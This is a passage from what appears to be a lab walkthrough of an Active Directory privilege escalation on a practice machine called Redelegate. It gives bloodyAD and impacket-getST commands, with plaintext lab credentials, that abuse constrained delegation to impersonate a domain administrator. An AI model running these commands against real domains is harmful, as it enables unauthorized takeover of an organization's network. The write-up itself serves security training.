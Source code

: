 We cannot Impersonate as an Administrator and that was odd.

Lets check the Administrator account properties to see if something’s present in its UAC.

```bash
bloodyAD -u 'Helen.Frost' -p 'aashwin10!' --host 'dc.redelegate.vl' -d 'redelegate.vl' get object 'Administrator'
```

![image.png](/assets/images/Redelegate_VL/image%2035.png)

When I listed the details of the Administrator account its UAC is set to **NOT_DELEGATED** i.e. its a protected account we cant do that.

However we have another account in the domain which is the domain administrator and its **Ryan.Cooper.**

So lets impersonate as him.

```bash
impacket-getST -spn 'CIFS/dc.redelegate.vl' -impersonate 'Ryan.Cooper' redelegate.vl/'FS01$':'aashwin10!'
```

![image.png](/assets/images/Redelegate_VL/image%2036.png)

Exporting that ticket to our KRB5CCNAME and using klist to list and verify it.
